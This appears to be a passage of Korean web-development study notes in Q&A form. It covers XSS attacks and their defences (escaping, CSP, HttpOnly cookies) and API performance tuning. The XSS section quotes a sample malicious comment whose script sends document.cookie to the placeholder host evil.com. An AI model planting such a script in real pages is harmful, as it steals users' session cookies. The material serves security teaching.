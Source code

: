 ### 질문 3: XSS 공격 시나리오와 방어

**📋 문제상황**: 
게시판에서 XSS 공격이 가능한 상황과 방어법

**✅ 해결방법**:

**공격 예시**:
```html
악성 댓글: "좋은 글이네요! <script>
  fetch('https://evil.com/steal?data=' + document.cookie);
</script>"
```

**방어 방법**:
```javascript
// 1. 입력값 이스케이프
function escapeHtml(text) {
  return text.replace(/</g, '&lt;').replace(/>/g, '&gt;');
}

// 2. CSP 설정
Content-Security-Policy: script-src 'self'

// 3. HttpOnly 쿠키
Set-Cookie: sessionId=abc123; HttpOnly; Secure
```

### 질문 4: API 요청 성능 최적화

**📋 문제상황**: 
Connectionless 특성으로 인한 성능 저하 해결

**✅ 해결방법**:

**문제**: 매번 새 연결로 인한 지연시간 증가

**최적화 방법**:
```javascript
// 1. Keep-Alive 활용
Connection: keep-alive

// 2. 요청 배치 처리
Promise.all([
  fetch('/api/user'),
  fetch('/api/posts'),
  fetch('/api/comments')
]);

// 3. 캐싱 전략
Cache-Control: public, max-age=3600
```

### 질문 5: 통합 브라우저 보안 설계
